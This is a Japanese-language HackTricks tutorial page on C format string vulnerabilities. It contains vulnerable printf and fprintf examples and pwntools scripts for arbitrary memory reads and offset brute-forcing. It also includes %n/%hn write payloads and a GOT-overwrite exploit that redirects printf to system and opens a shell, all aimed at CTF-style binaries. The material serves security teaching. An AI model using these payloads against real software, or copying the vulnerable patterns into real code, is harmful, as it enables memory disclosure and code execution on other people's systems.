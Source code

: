 # フォーマット文字列

{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

## 基本情報

Cの**`printf`**は、いくつかの文字列を**出力**するために使用できる関数です。この関数が期待する**最初のパラメータ**は、**フォーマッターを含む生のテキスト**です。次に期待される**パラメータ**は、生のテキストから**フォーマッター**を**置き換える**ための**値**です。

他の脆弱な関数には**`sprintf()`**と**`fprintf()`**があります。

脆弱性は、**攻撃者のテキストがこの関数の最初の引数として使用されるとき**に現れます。攻撃者は、**printfフォーマット**文字列の機能を悪用して、**任意のアドレス（読み取り可能/書き込み可能）にある任意のデータを読み書きする**ための**特別な入力を作成**することができます。この方法で**任意のコードを実行**することが可能です。

#### フォーマッター：
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**例:**

* 脆弱な例:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* 通常の使用:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* 引数が欠落している場合:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf 脆弱性:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **ポインタへのアクセス**

フォーマット **`%<n>$x`** は、`n` が数字である場合、printf にスタックから n 番目のパラメータを選択するよう指示します。したがって、printf を使用してスタックから 4 番目のパラメータを読み取りたい場合は、次のようにできます:
```c
printf("%x %x %x %x")
```
そして、最初から4番目のパラメータまで読み取ることができます。

または、次のようにすることもできます：
```c
printf("%4$x")
```
そして直接4番目を読みます。

攻撃者が`pr`**`intf`パラメータを制御していることに注意してください。これは基本的に、**彼の入力が`printf`が呼び出されるときにスタックに存在することを意味し、彼がスタックに特定のメモリアドレスを書き込むことができることを意味します。**

{% hint style="danger" %}
この入力を制御する攻撃者は、**スタックに任意のアドレスを追加し、`printf`がそれにアクセスできるようにします**。次のセクションでは、この動作をどのように利用するかが説明されます。
{% endhint %}

## **任意の読み取り**

フォーマッタ**`%n$s`**を使用して、**`printf`**が**n位置**にある**アドレス**を取得し、それを**文字列のように印刷する**ことが可能です（0x00が見つかるまで印刷します）。したがって、バイナリのベースアドレスが**`0x8048000`**であり、ユーザー入力がスタックの4番目の位置から始まることがわかっている場合、次のようにバイナリの先頭を印刷することができます：
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
注意：入力の最初にアドレス0x8048000を置くことはできません。なぜなら、そのアドレスの末尾に0x00が付加されるからです。
{% endhint %}

### オフセットを見つける

入力のオフセットを見つけるには、4バイトまたは8バイト（`0x41414141`）を送信し、その後に**`%1$x`**を続けて、`A`を取得するまで値を**増加**させます。

<details>

<summary>ブルートフォースprintfオフセット</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### どれほど役立つか

任意の読み取りは以下の目的に役立ちます：

* **メモリから** **バイナリ**を**ダンプ**する
* **カナリア、暗号化キー、またはこの[**CTFチャレンジ**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value)のようなカスタムパスワード**が保存されているメモリの特定の部分に**アクセス**する

## **任意の書き込み**

フォーマッタ **`$<num>%n`** は、スタックの \<num> パラメータに指定されたアドレスに**書き込まれたバイト数**を**書き込みます**。攻撃者がprintfを使って任意の数の文字を書き込むことができれば、**`$<num>%n`** を使って任意のアドレスに任意の数を**書き込む**ことができます。

幸いなことに、9999という数を書くために、入力に9999個の"A"を追加する必要はなく、フォーマッタ **`%.<num-write>%<num>$n`** を使用して、**`<num-write>`** の数を**`num`位置が指すアドレスに書き込む**ことが可能です。
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
しかし、通常、`0x08049724`のようなアドレスを書くためには（これは一度に書くには非常に大きな数です）、**`$hn`**が**`$n`**の代わりに使用されます。これにより、**2バイトだけを書く**ことができます。したがって、この操作は2回行われ、アドレスの最上位2バイトと最下位2バイトのそれぞれに対して行われます。

したがって、この脆弱性は**任意のアドレスに何でも書き込むことを可能にします（任意書き込み）。**

この例では、目標は**後で呼び出される**関数の**アドレス**を**上書き**することです。これは他の任意書き込みからexec技術を悪用することもできます：

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

私たちは、**ユーザー**から**引数**を**受け取る**関数を**上書き**し、それを**`system`**関数に**ポイント**します。\
前述のように、アドレスを書くためには通常2ステップが必要です：最初にアドレスの2バイトを書き、その後に残りの2バイトを書きます。そのために**`$hn`**が使用されます。

* **HOB**はアドレスの上位2バイトに呼び出されます
* **LOB**はアドレスの下位2バイトに呼び出されます

次に、フォーマット文字列の動作のために、最初に\[HOB, LOB\]の中で最小のものを**書く必要があります**、その後にもう一方を書きます。

HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools テンプレート

この種の脆弱性に対するエクスプロイトを準備するための**テンプレート**は、以下にあります：

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

または、[**こちら**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite)の基本的な例もあります：
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## フォーマット文字列からBOFへ

フォーマット文字列の脆弱性の書き込みアクションを悪用して、**スタックのアドレスに書き込む**ことが可能であり、**バッファオーバーフロー**タイプの脆弱性を悪用することができます。

## その他の例と参考文献

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32ビット、relroなし、canaryなし、nx、pieなし、スタックからフラグを漏洩させるためのフォーマット文字列の基本的な使用（実行フローを変更する必要はありません）
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32ビット、relroあり、canaryなし、nx、pieなし、win関数で`fflush`のアドレスを上書きするためのフォーマット文字列（ret2win）
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32ビット、relroあり、canaryなし、nx、pieなし、`.fini_array`内のmainのアドレスに書き込むためのフォーマット文字列（フローがもう1回ループバックするように）および`strlen`を指すGOTテーブル内の`system`へのアドレスを書き込む。フローがmainに戻ると、`strlen`がユーザー入力で実行され、`system`を指すと、渡されたコマンドが実行されます。

{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出してください。**

</details>
{% endhint %}
